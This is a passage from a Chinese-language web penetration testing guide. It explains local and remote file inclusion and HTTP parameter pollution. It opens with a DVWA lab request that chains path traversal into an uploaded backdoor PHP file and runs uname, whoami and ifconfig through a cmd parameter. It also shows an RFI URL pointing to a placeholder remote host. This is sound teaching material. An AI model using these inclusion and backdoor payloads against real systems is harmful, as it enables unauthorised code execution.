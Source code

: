 ```
http://10.7.7.5/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/simple-backdoor.php&cmd=uname+-a;whoami;/sbin/ifconfig
```

![](img/00270.jpeg)

# 远程文件包含

**远程文件包含**（**RFI**是一种攻击技术，当应用允许包含来自其他服务器的文件时，利用文件包含机制进行攻击。这可能导致应用在攻击者的控制下从远程服务器运行脚本。

RFI 的工作方式与 LFI 完全相同，只是使用了完整 URL，而不是文件的相对路径，如下所示：

```
http://vulnerable_website.com/preview.php?script=http://example.com/temp  
```

现代 web 服务器的功能包括默认禁用的文件，特别是外部文件。然而，有时应用或业务的需求会使开发人员启用此功能。然而，随着时间的推移，这种情况发生的频率会降低。

# HTTP 参数污染

HTTP 允许在`GET`和`POST`方法中使用相同名称的多个参数。HTTP 标准既没有解释，也没有设置规则，说明如何解释具有相同名称的多个输入参数，是接受变量的最后一次出现还是第一次出现，还是将变量用作数组。

例如，以下`POST`请求符合标准，即使`item_id`变量的值为`num1`和`num2`：

```
item_id=num1&second_parameter=3&item_id=num2  
```

尽管根据 HTTP 协议标准，这是可以接受的，但不同的 web 服务器和开发框架处理多个参数的方式不同。处理多个参数的未知过程通常会导致安全问题。这种意外的行为称为**HTTP 参数污染**。下表显示了主要 web 服务器中的 HTTP 重复参数行为：
